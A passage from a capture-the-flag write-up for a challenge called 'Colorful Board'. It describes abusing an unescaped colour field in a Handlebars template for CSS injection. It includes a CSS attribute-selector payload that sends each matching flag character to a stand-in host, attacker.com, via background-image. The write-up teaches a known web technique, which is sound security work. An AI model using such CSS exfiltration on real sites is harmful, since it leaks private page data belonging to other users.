 ![Colorful Board](/assets/images/deadsec-writeups/colorful-board-02.png)

How is that relevant? We can use this to inject some CSS/XSS(doesn't work) to leak the admin's page or some of it's content when doing report. Now let's skip the XSS though I spent most of the time trying to make it work, but on the website nothing reflects and outside the website we can't access it's content or do CSRF because of the same-origin policy.

So now we have [CSS injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection) we need a good page to leak the flag from, the `/post/edit/:id` which the admin can access has what we need
```sh
common/views/post-edit.hbs:            color: {{{ user.personalColor }}}
```
![Colorful Board](/assets/images/deadsec-writeups/colorful-board-03.png)

Now from the hacktricks we know we can leak chars from the page by using the `background-image` like this for example:
```css
input[class=user][value^="D"] {
    background-image: url("http://attacker.com/flag/D");
}
```
If the flag starts with `D` we will get a request to `http://attacker.com/flag/D` and so on for the rest of the flag.
